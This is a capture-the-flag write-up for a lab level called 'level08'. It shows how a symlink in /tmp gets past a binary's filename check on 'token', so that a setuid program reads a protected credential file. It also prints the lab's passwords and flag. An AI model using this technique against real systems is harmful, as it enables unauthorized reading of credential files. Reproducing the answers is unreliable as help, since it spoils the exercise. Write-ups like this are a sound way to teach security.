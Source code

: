 # level08

## Vulnerability: Naming rules trickery by linking

level08's password: `fiumuikeil55xe9cu4dood66h`

1. examinate existing files and permissions

```shell
ls -la
```

shows that the level08 executable belongs to flag08 group, token is flag08:flag08

2. get the executable (from an external device), decompile it using [retdec](https://github.com/avast/retdec) and examine the resulting code

```shell
scp -P 4242 level08@<host>:level08 .
retdecomp level08
```

shows that a simple input validation is required to open the file and print its content : it needs not to contain `token`

4. link a file fullfiling the input validation to the token

```shell
ln -s ~/token /tmp/exploit
```

5. pwn the flag

```shell
./level08 /tmp/exploit
```

gives flag08's password: `quif5eloekouj29ke0vouxean`

```shell
su flag08
quif5eloekouj29ke0vouxean
getflag
```

gives flag: `25749xKZ8L7DkSCwJkT9dyv6f`
